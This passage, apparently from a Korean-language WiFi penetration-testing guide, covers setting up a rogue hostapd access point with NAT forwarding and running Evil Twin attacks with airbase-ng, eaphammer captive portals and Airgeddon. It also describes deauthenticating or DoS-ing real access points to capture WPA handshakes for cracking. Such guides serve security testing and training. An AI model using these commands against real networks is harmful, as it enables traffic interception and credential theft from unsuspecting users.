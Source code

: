 ```ini
macaddr_acl=0
ignore_broadcast_ssid=0
auth_algs=1
wpa=2
wpa_passphrase=mitmwifi123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_group_rekey=86400
ieee80211n=1
wme_enabled=1
```
**귀찮은 프로세스 중지** , **모니터 모드 설정** , 그리고 **hostapd 시작**:
```bash
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
hostapd ./hostapd.conf
```
### 포워딩 및 리디렉션
```bash
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT
echo 1 > /proc/sys/net/ipv4/ip_forward
```
## Evil Twin

악성 쌍둥이 공격은 WiFi 클라이언트가 네트워크를 인식하는 방식을 이용하며, 주로 네트워크 이름(ESSID)에 의존하고 기본 스테이션(액세스 포인트)이 클라이언트에 대해 인증할 필요가 없습니다. 주요 사항은 다음과 같습니다:

- **구별의 어려움**: 장치들은 동일한 ESSID와 암호화 유형을 공유하는 경우 합법적인 액세스 포인트와 악성 액세스 포인트를 구별하는 데 어려움을 겪습니다. 실제 네트워크는 종종 동일한 ESSID를 가진 여러 액세스 포인트를 사용하여 원활하게 범위를 확장합니다.
- **클라이언트 로밍 및 연결 조작**: 802.11 프로토콜은 장치가 동일한 ESS 내의 액세스 포인트 간에 로밍할 수 있도록 허용합니다. 공격자는 장치를 현재의 기본 스테이션에서 분리하고 악성 스테이션에 연결하도록 유도하여 이를 악용할 수 있습니다. 이는 더 강한 신호를 제공하거나 비인증 패킷이나 재밍과 같은 방법을 통해 합법적인 액세스 포인트와의 연결을 방해함으로써 달성할 수 있습니다.
- **실행의 어려움**: 여러 개의 잘 배치된 액세스 포인트가 있는 환경에서 악성 쌍둥이 공격을 성공적으로 실행하는 것은 어려울 수 있습니다. 단일 합법적인 액세스 포인트를 비인증화하면 장치가 다른 합법적인 액세스 포인트에 연결되는 경우가 많으며, 공격자가 모든 인근 액세스 포인트를 비인증화하거나 전략적으로 악성 액세스 포인트를 배치할 수 없는 한 그렇습니다.

아주 기본적인 Open Evil Twin(인터넷으로 트래픽을 라우팅할 수 있는 기능 없음)을 만들 수 있습니다:
```bash
airbase-ng -a 00:09:5B:6F:64:1E --essid "Elroy" -c 1 wlan0mon
```
**eaphammer**를 사용하여 Evil Twin을 생성할 수도 있습니다(악성 트윈을 생성하기 위해서는 **모니터** 모드에 있지 않아야 합니다).
```bash
./eaphammer -i wlan0 --essid exampleCorp --captive-portal
```
Airgeddon을 사용하는 경우: `Options: 5,6,7,8,9 (Evil Twin 공격 메뉴 내에서).`

![](<../../images/image (1088).png>)

기본적으로 PNL에 ESSID가 WPA로 보호되어 저장되어 있으면, 장치는 자동으로 Open evil Twin에 연결되지 않습니다. 실제 AP를 DoS 공격하여 사용자가 수동으로 Open evil twin에 연결하기를 바라거나, 실제 AP를 DoS 공격하고 WPA Evil Twin을 사용하여 핸드쉐이크를 캡처할 수 있습니다(이 방법을 사용하면 PSK를 알지 못하므로 피해자가 당신에게 연결할 수는 없지만, 핸드쉐이크를 캡처하고 이를 크랙하려고 시도할 수 있습니다).
